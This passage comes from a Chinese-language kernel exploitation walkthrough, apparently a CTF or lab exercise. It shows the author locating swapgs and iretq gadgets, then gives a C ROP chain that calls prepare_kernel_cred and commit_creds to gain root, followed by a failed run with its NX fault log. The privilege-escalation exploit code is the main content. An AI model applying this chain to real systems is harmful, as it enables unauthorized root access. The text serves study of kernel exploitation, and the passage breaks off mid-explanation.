 接下里寻找swapgs和iretq：

```
cat ./gadgets.txt | grep "swapgs"
0xffffffff8100a55f : swapgs ; pop rbp ; ret

➜  Kernel git:(main) ✗ objdump -j .text -d ./vmlinux | grep iretq | head -1
ffffffff8100c0d9:    48 cf                    iretq
```

iretq指令用ROPgadgets没找到。整个ROP链如下：

```
unsigned long push_rax_pop_rdi_ret = 0xffffffff81e5f09c;
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
unsigned long commit_creds = 0xffffffff814c6410;
unsigned long swapgs_pop_rbp_ret = 0xffffffff8100a55f;
unsigned long iretq = 0xffffffff8100c0d9;
void overflow_nx2(void)`{`
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0;    //rbx
    payload[off++] = 0x0;    //r12
    payload[off++] = 0x0;    //rbp
    payload[off++] = pop_rdi_ret;
    payload[off++] = 0;
    payload[off++] = prepare_kernel_cred;
    payload[off++] = push_rax_pop_rdi_ret;
    payload[off++] = commit_creds;
    payload[off++] = swapgs_pop_rbp_ret;
    payload[off++] = 0xdeadbeef;
    payload[off++] = iretq;
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
`}`
```

试了一下果不其然出错了：

```
[    5.005786] kernel tried to execute NX-protected page - exploit attempt? (uid: 1000)
[    5.006041] BUG: unable to handle page fault for address: ffffffff81e5f09c
```

原因就是我找的那个gadgets：**push_rax_pop_rdi_ret**不是代码段，确实有点难找。就直接用原作者的：

